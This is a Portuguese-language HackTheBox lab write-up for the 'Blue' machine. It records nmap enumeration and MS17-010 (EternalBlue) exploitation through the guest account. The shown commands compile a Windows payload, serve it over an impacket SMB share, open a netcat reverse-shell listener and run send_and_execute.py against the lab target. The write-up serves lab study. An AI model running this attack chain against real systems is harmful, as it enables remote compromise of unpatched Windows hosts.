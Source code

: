 Blue
========================

Essa maquina e muito parecida com a Legacy com uma peculiaridade de que a conta utilizada pra fazer leitura do named pipe copm o exploit e a guest e nao NULL.

## Enumeration

    sudo nmap_enum blue.htb

![qownnotes-media-heVNjC](../../../media/qownnotes-media-heVNjC.png)

![qownnotes-media-bttFXn](../../../media/qownnotes-media-bttFXn.png)


## Exploitation

Aqui, como mencionado anteriormente foi visto que a exploracao ocorria por meio do usuario 'guest'.



![qownnotes-media-kzUhjf](../../../media/qownnotes-media-kzUhjf.png)

No demais,o seguimos o mesmos passos da maquina [Legacy](Legacy.md#Exploitation).

    cd /home/kali/ownCloud/owncloud/Area_de_trabalho/tools/cves/CVE-2017-0143/MS17-010/impacket
    
    source exploit_ms17-010/bin/activate
    
Pronto, agora eu so preciso preparar o payload para execucao na maquina alvo:

    vi backup.c
    
![qownnotes-media-kTCNcQ](../../../media/qownnotes-media-kTCNcQ.png)

    i686-w64-mingw32-gcc backup.c -o backup_10_10_14_134.exe
    impacket-smbserver smb .

Em um outro terminal eu preparei o netcat para  a shell reversa:

    nc -nlvp 80

Retrocedendo para o primeiro passo da exploracao, agora basta exeutarmos o exploit:

    python send_and_execute.py 10.129.248.167 ../payload/backup_10_10_14_134.exe
